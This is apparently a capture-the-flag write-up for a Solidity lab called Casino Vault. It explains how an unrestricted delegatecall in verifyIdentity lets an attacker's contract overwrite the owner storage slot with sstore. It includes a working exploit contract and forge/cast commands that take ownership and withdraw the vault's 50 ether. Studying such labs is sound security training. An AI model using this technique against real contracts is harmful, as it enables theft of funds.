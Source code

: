 The Vault of this Casino can only be opened by the owner, what are we trying to do here is to take everything from the owner, but how?

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "./CasinoVault.sol";

contract Setup{
    CasinoVault public CS;

    constructor() payable{
        CS = new CasinoVault{value: 50 ether}();
    }

    function isSolved() public view returns(bool){
        return address(CS).balance == 0;
    }

}
```

it seems the Heist is successful when we managed to empty the Vault, a lot of work to be done here it seems huh? Let's look at what we're dealing with, the `CasinoVault Contract`

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

contract CasinoVault {
    address public gameLogic;
    address public owner;

    constructor() payable {
        owner = msg.sender;
    }

    function verifyIdentity(address _identity, bytes memory data) public {
        (bool success, ) = _identity.delegatecall(data);
        require(success, "Verifying failed");
    }

    function withdraw() public {
        require(msg.sender == owner, "Not the owner");
        (bool transfered, ) = payable(owner).call{value: address(this).balance}("");
        require(transfered, "Withdrawal Failed!");
    }

    receive() external payable {}
    
}
```

We can see here that we can verifyIdentify by providing an `address` and a `bytes memory data`, they use deelgatecall there, delegate call are usually used like a "borrowed function", you execute the function in order to modify the state of the caller, in this case if we parse and address an execute the data there it will execute the data and modify the state of the `Casino Vault` itself. Unlinke Silent-Dealer where there is a function to change owner here the option doesn't present. So hwo can we become the Owner and drain the vault?

In EVM Assembly, there is a operation called `sstore(location, value)`, we can use this to overwrite the storage memory, let's see where the `owner` reside,

```solidity
    address public gameLogic; // SLOT 0
    address public owner; // SLOT 1
```

based on that information, we can see that the owner is stored at SLOT 1, and the length since it's an address must be 20 bytes long. Now that we have the 2 options, we can either put the owner to become ourselves (EOA) or we can write the Exploit Contract Address, this can be done by either providing `origin()` (EOA) or `caller()` (msg.sender, in this case is the Exploit Contract), as the parameter. So if we want to overwrite the storage we can use

```
sstore(1, origin()) // for tx.origin / EOA
// or
sstore(1, caller()) // for msg.sender 
```

In this exploitation I choose to overwrite it using my EOA, so we are going to go with this exploit to drain the Vault

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "./Setup.sol";
import "./CasinoVault.sol";

contract Exploit {
    Setup public setup;
    CasinoVault public cs;

    constructor(address payable _setup) {
        setup = Setup(_setup);
        cs = CasinoVault(setup.CS());
    }

    function exploit() public {
        cs.verifyIdentity(address(this), abi.encodeWithSignature("takeOver()"));
    }

    function takeOver() public {
        assembly {
            sstore(1, origin()) 
        }
    }

}
```

Let's deploy it and at last we going to withdraw all the money stored there

```bash
// Deploying the Exploit Contract
forge create src/casino-vault/$EXPLOIT_FILE:$EXPLOIT_NAME -r $RPC_URL --private-key $PK --constructor-args $SETUP_ADDR

// Running the Exploit
cast send -r $RPC_URL --private-key $PK $EXPLOIT_ADDR "exploit()"

// Withdrawing Everything from the Vault
cast send -r $RPC_URL --private-key $PK $VAULT_ADDR "withdraw()"
```

By running the command above and deploying the Exploit contract, you should've solved the lab!